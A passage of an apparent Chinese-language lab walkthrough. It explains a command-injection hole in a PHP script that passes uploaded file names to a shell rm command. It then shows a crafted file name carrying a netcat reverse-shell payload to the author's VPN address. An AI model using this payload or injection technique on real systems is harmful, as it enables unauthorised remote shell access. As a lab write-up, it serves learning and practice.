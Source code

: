 $files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```

从上传源代码可知，上传文件的名字是由IP和扩展名组成，IP获得使用了```REMOTE_ADDR```,这个获得的是真实IP，在这部机器里拿到的就是我们vpn里的IP

假设IP是：```10.10.14.3```,上传的文件扩展是：```.jpg```,那么保存在服务器中的文件名是```10_10_14_3.jpg```


分析上面的代码

```
list ($name,$ext) = getnameCheck($value);
```

这一行主要是把文件名从uploads中拿出来，还原出一个真实的IP地址

```
$check = check_ip($name,$value);
```

上面这行检查IP是否合法，不合法的IP会进入下面的if判断

再留意这一行：
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &")
```

$path的值是固定的，但是$value的值其实是我们上传的文件名，某种程度上是可以"自定义"的，只要我们能控制服务器获得的IP，也就是说这一行代码存在命令注入漏洞。

一开始我是从伪造IP的思路，但是修改了几个请求头都不能伪造我们的IP地址

后来去到```/var/www/html/uploads```，发现这个目录是可写的，这就更加简单,只需要构建一个包含命令的文件名

我们创建一个包含playload的文件名

```
bash-4.2$ touch "|nc -c bash 10.10.14.3 4242"
touch "|nc -c bash 10.10.14.3 4242"
bash-4.2$ ls